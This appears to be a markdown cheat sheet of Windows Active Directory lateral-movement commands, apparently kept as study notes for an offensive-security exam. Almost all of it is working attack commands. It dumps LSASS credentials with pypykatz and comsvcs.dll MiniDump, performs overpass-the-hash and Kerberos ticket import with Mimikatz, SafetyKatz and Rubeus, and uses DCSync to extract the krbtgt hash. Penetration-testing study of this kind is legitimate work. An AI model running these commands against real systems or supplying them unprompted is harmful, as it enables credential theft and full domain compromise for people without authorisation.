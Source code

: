 ```yaml
---
tags:
  - lateral-movement
cssclasses:
  - LSASS
  - MimiKatz
  - OPTH
  - DCSync
---
```

#### [Extracting Credentials](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them) from LSASS

```batch title:"Using pypykatz (Mimikkatz functionality in Python)"
pypykatz.exe live lsa
```

```powershell title:"Get the process ID of lsass"
(Get-Process -ProcessName lsass).Id
```

```batch title:"Get the process ID of lsass"
tasklist /FI "IMAGENAME eq lsass.exe"
```

```batch title:"Using comsvcs.dll"
rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

#### OverPass-The-Hash

OPTH generate tokens from hashes or keys.

```powershell title:"Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs admin privileges"
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.name /aes256:<aes256key> /run:powershell.exe"'
```

```batch title:"alternative"
SafetyKatz.exe "sekurlsa::pth /user:Administrator /domain:domain.name /aes256:<aes256keys> /run:cmd.exe" "exit"
```

Commands start a PowerShell/cmd.exe session with a logon type 9 (same as `runas /netonly`)

```batch title:"Imports tgt to current shell, doesn't need elevation"
Rubeus.exe asktgt /user:Adminstrator /rc4:<ntlmhash> /ptt
```

```batch title:"Imports tgt to current shell, needs elevation"
Rubeus.exe asktgt /user:Adminstrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

#### DCSync

To extract credentials from the DC without code execution on it, we can use DCSync.

```powershell title:"Use DCSync rights to get the hash of the krbtgt account with Domain Admin privileges for a domain"
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

```batch title:"Use DCSync rights to get the hash of the krbtgt account with Domain Admin privileges for a domain"
SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```

By default, Domain Admin privileges are required to run DCSync, but during the exam please verify.


